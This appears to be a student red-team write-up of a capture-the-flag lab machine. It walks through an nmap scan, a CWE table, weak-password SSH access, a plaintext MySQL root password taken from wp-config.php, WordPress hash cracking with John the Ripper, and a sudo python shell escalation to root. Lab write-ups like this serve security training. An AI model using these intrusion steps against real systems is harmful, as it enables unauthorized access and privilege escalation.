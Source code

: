 # **Red Team: Summary of Operations**

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

nmap -sV 192.168.1.110

![1](/Images/1/1.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

### TARGET 1

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive Information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have significant affects on your business
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. | A user is able to execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows a LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**flag1:**  `flag1{b9bbcb33e11b80be759c4e844862482d}`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    1. On google chrome input the `Url: 192.168.1.110/service.html`
    2. Right click / view page source code / click on 3 dot menu
    3. Search: flag1

     **Flag1**

    ![2](/Images/1/2.png)

---

**flag2:** `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        Cd ../../
        Find -iname “*flag*” 2>/dev/null
        Cat /var/www/fllag2.txt
    ```

    **Flag2**

    ![3](/Images/1/3.png)

---

**flag3:**  `flag3{afc01ab56b50591e7dccf93122770cd2}`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The root password to access the SQL database is reachable in plain text on the file wp-config.php
    
    Exploit:
    ```
    Nano wp-config.php
    Look down mysql database password
    mysql -u root -p
    Password: R@v3nSecurity
    ```

    ![4](/Images/1/4.png)

    >#### note: Flags 3 and 4 can be found in different ways. At the end of this report are two ways to access flag3 and flag4.

---

**flag4:**  `flag4{715dea6c055b9fe3337544932f2941ce}`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows to execute a Python Script that leads to a root access to the system.

    **CRACKING THE HASH PASSWORD**

    Exploit:

    1. In the sql database run: 

        ```
            mysql> show databases;
            mysql> use wordpress;
            mysql> show tables;
            mysql> SELECT* FROM wp_posts;
        ```

        ![5](/Images/1/5.png)

    2. Create a file with the hashes and usernames in john the ripper format

        ![6](/Images/1/6.png)

        ```
        John hashes.txt -wordlist=’usr.share/wordlist/rockyou.txt’
        ```

        ![7](/Images/1/7.png)

    **PRIVILEGE ESCALATION USING A PYTHON SCRIPT**

    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:

    ```   
    su steven
    Password: pink84
    sudo -l  
    ```
    
    ![8](/Images/1/8.png)

    Steven has the privilege to run python language as a root user

    
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    

    ![9](/Images/1/9.png)

     **Flag4**

    ![10](/Images/1/10.png)

***

# Alternative ways to access flag 3 and 4

## SQL database: **Flag 3 and 4**

```
Mysql -u root -p
mysql> show databases;
mysql> use wordpress;
mysql> show tables;
mysql> select * from wp_posts;
```

  **Flag3 and Flag4**
 
 ![11](/Images/1/11.png)

## Binary File: **Flag 3**

1. Needs to be Root
2. In the directory:  /var/lib/mysql 

    ```
    grep -r flag3 *
    nano lib_logfile0
    ctrl w flag3
    ```

**Flag3**

![12](/Images/1/12.png)

## File: **Flag 4**

`cat /root/flag4.txt`


> Others Exploits:
CVE-2014-6271 Shellshock vulnerability. It is possible to gain shell access through Remote code execution.